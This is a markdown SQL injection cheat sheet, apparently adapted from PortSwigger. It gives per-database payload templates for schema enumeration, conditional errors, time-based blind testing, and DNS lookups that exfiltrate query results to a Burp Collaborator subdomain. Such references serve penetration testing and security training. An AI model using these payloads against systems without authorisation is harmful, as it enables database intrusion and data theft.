 # SQLi Cheatsheet

**NOTE: Some of the information here have been taken from:**

- [PortSwigger.net](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [MySQL Docs](https://dev.mysql.com/doc/refman/8.0/en/information-schema.html)

### String Concatenation:
- Oracle 	`'foo'||'bar'`
- Microsoft 	`'foo'+'bar'`
- PostgreSQL 	`'foo'||'bar'`
- MySQL
  - `'foo' 'bar'` [Note the space between the two strings]
  - `CONCAT('foo','bar')`
  - `CONCAT(col1,col2...)`

### Substring
**Remember: Index starts from 1**
- Oracle `SUBSTR('foobar', 4, 2)`
- Microsoft	`SUBSTRING('foobar', 4, 2)`
- PostgreSQL `SUBSTRING('foobar', 4, 2)`
- MySQL	`SUBSTRING('foobar', 4, 2)`

### Comment
- Oracle 	`--comment`
- Microsoft
  - `--comment`
  - `/*comment*/`
- PostgreSQL
  - `--comment`
  - `/*comment*/`
- MySQL
  - `#comment`
  - `-- comment` *[Note the space after the double dash]*
  - `/*comment*/`

### Database version
- Oracle
  - `SELECT banner FROM v$version`
  - `SELECT version FROM `v$instance
- Microsoft	`SELECT @@version`
- PostgreSQL `SELECT version()`
- MySQL	`SELECT @@version`

### Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

- Oracle
  - `SELECT * FROM all_tables`
  - `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
- Microsoft
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- PostgreSQL
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- MySQL

**Information:**

    - '**information_schema**' is the database that contains all information about all the database, table, column, etc names.*

    - *'**information_schema.tables**' table contain useful columns that show which table belongs to which database (and vice-versa):*
    
        - table_schema
        (database name)
        - table_name
        - table_rows
        (number of rows of table)
    - *'**information_schema.columns**' contain useful columns that show which column belongs to which table (and vice-versa)*:

      - table_schema
      (database name)
      - table_name
      - column_name

  **Queries:**

  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

### Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

- Oracle `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual`
- Microsoft `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
- PostgreSQL `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END`
- MySQL `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') `

### Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

- Oracle -	*Does not support batched queries.*
- Microsoft `QUERY-1-HERE; QUERY-2-HERE`
- PostgreSQL 	`QUERY-1-HERE; QUERY-2-HERE`
- MySQL - *Does not support batched queries.*

### Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

- Oracle 	`dbms_pipe.receive_message(('a'),10)`
- Microsoft `WAITFOR DELAY '0:0:10'`
- PostgreSQL `SELECT pg_sleep(10)`
- MySQL	`SELECT sleep(10)`

### Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

- Oracle `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
- Microsoft `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
- PostgreSQL `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
- MySQL	`SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`

### DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred. 

- **Oracle**
 	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
`SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`

  The following technique works on fully patched Oracle installations, but requires elevated privileges:
  `SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')`
- **Microsoft**
  `exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'`
- **PostgreSQL**
  `copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'`
- **MySQL**
  *The following techniques work on Windows only:*
    - `LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')`
    - `SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`

### DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data. 

- **Oracle**
` SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`

- **Microsoft**
`declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')`

- **PostgreSQL**
  ```
  create OR replace function f() returns void as $$
  declare c text;
  declare p text;
  begin
  SELECT into p (SELECT YOUR-QUERY-HERE);
  c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
  execute c;
  END;
  $$ language plpgsql security definer;
  SELECT f();
  ```

- **MySQL**
  *The following technique works on Windows only:*
  `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`
